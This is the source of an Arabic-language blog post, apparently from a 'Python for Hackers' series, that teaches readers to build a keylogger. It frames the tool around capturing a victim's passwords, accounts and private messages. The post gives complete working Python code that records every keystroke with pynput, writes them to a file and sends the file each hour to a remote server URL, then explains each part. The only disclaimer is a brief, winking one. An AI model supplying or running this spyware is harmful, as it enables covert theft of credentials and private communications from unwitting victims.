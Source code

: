 ```yaml
---

title: "Keylogger with Python in Arabic"
date: 2025-03-24
authors: "Farouk"
layout: post
categories: Python_for_Hackers
tags: [Python, Keylogger, Security, PenetrationTesting, Hacker]
direction: rtl
---
```

<script>
document.addEventListener("DOMContentLoaded", function () {
    // البحث عن العنصر الذي يحتوي على "By"
    let authorElement = document.querySelector("span em");

    // التأكد أن العنصر موجود
    if (authorElement) {
        authorElement.textContent = "Farouk"; // وضع الاسم داخل الوسم <em>
    }
});
</script>

<h2 id="كيف-تكتب-keylogger-بسيط-بالـ-python" dir="rtl"><span class="me-2"><strong>كيف تكتب Keylogger بسيط بالـ Python؟</strong></span><a href="#كيف-تكتب-keylogger-بسيط-بالـ-python" class="anchor text-muted"></a></h2>

<h3 id="-المقدمة" dir="rtl"><span class="me-2"><strong>💡 المقدمة</strong></span><a href="#-المقدمة" class="anchor text-muted"></a></h3>

<p dir="rtl">اول شي خلونا نفهم شو يعني <strong>Keylogger</strong> , ال <strong>Keylogger</strong> هو عبارة عن برنامج بسجل عندي ضغطات الكيبورد تبع الضحية وهيك بقدر اعرف الحسابات وكلمات السر او حتى الرسائل الخاصة.
واليوم رح نعمل سوا <strong>Keylogger بسيط بلغة Python</strong> ونتعرف على آلية عمله بالتفصيل.</p>

<p dir="rtl">📌 <strong>رح يغطي هذا الدرس:</strong></p>
<ul dir="rtl">
<li> كيف بتسجل ضغطات الكيبورد باستخدام مكتبة pynput </li>
<li> تخزين هالبيانات ضمن ملف </li>
<li> كيف نبعت هالملف من جهاز الضحية للسيرفر الخاص فينا </li>
<li> تشغيل برنامجنا  <strong>كبرنامج مستمر</strong> يضل شغال بال <strong>Background</strong> </li>
</ul>

---

<h3 id="-الكود-كامل-keylogger-بالبايثون" dir='rtl'><span class="me-2"><strong> الكود كامل: Keylogger بالبايثون</strong></span><a href="#-الكود-كامل-keylogger-بالبايثون" class="anchor text-muted"></a></h3>

```python
import requests
import threading
from pynput.keyboard import Key, Listener

# رابط السيرفر لاستقبال البيانات
SERVER_URL = "http://your-server.com/logs"  # استبدله برابط السيرفر الخاص بك

def write_to_file(key):
    """
    تخزين ضغطات المفاتيح في ملف log.txt
    """
    try:
        keydata = str(key).replace("'", "")

        # التعامل مع المفاتيح الخاصة
        if key == Key.space:
            keydata = ' '
        elif key == Key.enter:
            keydata = '\n'
        elif key in (Key.shift, Key.ctrl_l, Key.ctrl_r, Key.alt_l, Key.alt_r):
            keydata = ''  # تجاهل مفاتيح التعديل

        # حفظ المفاتيح في الملف
        with open('log.txt', 'a') as f:
            f.write(keydata)
    
    except Exception as e:
        print(f"Error: {e}")

def send_logs():
    """
    إرسال البيانات المخزنة إلى السيرفر كل ساعة
    """
    try:
        with open("log.txt", "r") as f:
            logs = f.read()
        
        if logs.strip():  # الإرسال فقط إذا كان هناك بيانات
            response = requests.post(SERVER_URL, data={"logs": logs})
            if response.status_code == 200:
                print("Logs sent successfully!")
                open("log.txt", "w").close()  # مسح الملف بعد الإرسال
            else:
                print(f"Failed to send logs, status code: {response.status_code}")
    
    except Exception as e:
        print(f"Error sending logs: {e}")

    # جدولة إعادة التنفيذ كل ساعة
    threading.Timer(3600, send_logs).start()

# بدء الإرسال التلقائي
send_logs()

# تشغيل الـ Keylogger
with Listener(on_press=write_to_file) as listener:
    listener.join()
```

---

<h3 id="تحليل-الكود" dir='rtl'><span class="me-2"><strong>تحليل الكود</strong></span><a href="#تحليل-الكود" class="anchor text-muted"></a></h3>

<p dir="rtl">📌 <strong>1. تسجيل ضغطات المفاتيح:</strong></p>
<ul dir="rtl">
  <li>مكتبة الpynput بتساعدني لتسجيل كل <strong>ضغطة زر</strong> عالكيبورد وتحليلها.</li>
  <li>المفاتيح الخاصة (مثل Shift و Enter) منتعامل معها بطريقة مناسبة.</li>
  <li><strong>منحفظ كل ضغطة عالكيبورد</strong> بملف log.txt.</li>
</ul>

<p dir="rtl">📌 <strong>2. إرسال البيانات إلى سيرفر:</strong></p>
<ul dir="rtl">
  <li>منقرأ محتوى ملف log.txt كل <strong>ساعة</strong>.</li>
  <li>إذا كان عندي بيانات، فبيبعتلي ياها ل  <strong>السيرفر</strong> عبر requests.post().</li>
  <li>بعد ما يتم الارسال بقلو <strong>يمسحلي الملف</strong> حتى مايصير عندي تكرار بالإرسال.</li>
</ul>

<p dir="rtl">📌 <strong>3. تشغيل الكي لوجر بالخلفية:</strong></p>
<ul dir="rtl">
  <li>استخدمت threading.Timer حتى يضل عم يرسل البيانات بشكل دوري.</li>
  <li>Listener بضل شغال حتى حدا <strong>يوقف البرنامج يدويًا</strong>.</li>
</ul>

<hr />


---

<h3 id="الخاتمة" dir="rtl"><span class="me-2"><strong>الخاتمة</strong></span><a href="#الخاتمة" class="anchor text-muted"></a></h3>

<p dir='rtl'>هيك صار عندك <strong>Keylogger بسيط وفعال</strong> وهاد الشي حتى تفهم آلية عمله ويكون عندك الفهم البرمجي لطريقة عمله, فلا تستخدموا بطريقة غلط🌚.</p>

<p dir='rtl'><strong>وهلق خبرني شو رأيك بالكود؟ وهل عندك أفكار لتطويره؟🤔</strong></p>


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-KKMCPL6FXY"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-KKMCPL6FXY');
</script>
